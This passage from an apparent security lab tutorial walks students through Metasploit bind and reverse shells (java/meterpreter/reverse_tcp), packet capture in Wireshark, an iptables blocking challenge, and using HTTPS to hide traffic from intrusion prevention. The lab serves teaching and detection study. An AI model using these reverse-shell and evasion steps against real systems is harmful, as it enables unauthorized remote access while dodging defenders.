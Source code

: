 6) Return to the meterpreter and exit the exploit with **`exit`** as well as stop your capture.

Take a look at the hex dump and try to note what happened during the exploit, in what order did it happened in?

Lets take a moment to read about the difference between a shell and the Meterpreter. A shell is the raw access to the remote shell. Like having a local shell but... remote. Meterpreter helps by wrapping some common routines so it is easy to complete routine tasks. Take a look at some of these resources.

* [Meterpreter Cheat Sheet](https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf)
* [SANS Cheat Sheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

### Challenge -- Make a Firewall Rule

The intent has been to make a firewall rule on the "sploit" machine but I have not been successful getting that working. If you want give it a try by issuing the following command on the "sploit" machine. Make sure to adjust the -i value of **eth0** to appropriate interface name and test out the above exploit to see that it blocks the connection on port 4444 (the goal is that it should)

```bash
sudo iptables -A INPUT -i eth0 -p tcp --destination-port 4444 -j DROP
```

### Setting up a Reverse Shell

Last section we used a bind shell to gain access to the system. This time we are going to use a different payload: a reverse TCP listener or reverse shell.

1) Return to Metasploit and get to the point where you are ready to set your payload.
2) Type **`set PAYLOAD`** and hit TAB to see the different payloads available.
3) From the payloads select **`java/meterpreter/reverse_tcp`** and verify your options with **`show options`** (if needed set your RHOST again to the sploit IP address)
4) Because we are setting up a reverse connection, we see we need to set a LHOST (or a host that is going to be listening). Set your LHOST to your Kali IP address.
5) Lets **start a packet capture** before the exploit so we can dissect what is happening. (open Wireshark and start a capture)
6) Launch your exploit with **`exploit`**
7) You should get access on the Meterpreter shell and can verify your access by issuing the command **`getuid`**
8) Stop your packet capture and lets take a look

Try to put together what you are seeing in the packet capture. How does it differ from the bind shell we obtained above? If we had set a firewall in the Challenge would it have blocked the outbound connection on 4444 being established?

Looking at the traffic, would you be able to find any indication or strings that would indicate your attack that could be blocked by a NIPS/HIPS?

We have been using TCP packets so everything is in plain-text that we are seeing. What if we encrypted the traffic, do you think we could get around a NIPS? What do we commonly use to encrypt traffic across a network at the application layer? **HTTPS**

### Reverse shell with HTTPS

Lets try to carry out the same exploit this time using HTTPS so we can **HIDE** our traffic and keep a lower profile.
